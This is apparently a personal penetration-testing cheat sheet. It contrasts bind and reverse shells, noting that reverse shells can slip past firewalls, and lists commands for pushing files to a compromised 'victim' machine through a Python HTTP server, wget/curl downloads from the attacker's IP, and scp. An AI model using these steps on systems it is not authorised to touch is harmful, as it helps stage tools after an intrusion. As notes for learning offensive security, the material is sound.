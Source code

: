 ## Transfering files from your pc to another remote machine u have a reverse shell in


#### **differeces between reverse and bind shells :**
| bind shell | revrse shell
| --------------|-------------
|listening on open <br /> port on the victims <br /> machine | listening on <br /> the attacker's machine
|the attackers connects <br />  to the victims machine<br /> from his pc | the attackers connects <br /> to his own pc from <br /> the victims pc
| may fail bcz of firewall <br /> only allowing connections<br /> on ports 80 449..|can bypass firewall issues|
  


### python http server
```shell
cd directory-containing-files
python3 -m http.server
```
this will serve files in the dir via http on port 8000 by default

to get the files use wget or curl
```shell
wget http://myip/file
curl http://myip/file --output some.file
```

### SCP : secure copy protocol
based on ssh, used to push files to a distant machine
```shell
    scp file.txt root_remote@victim_ip file
```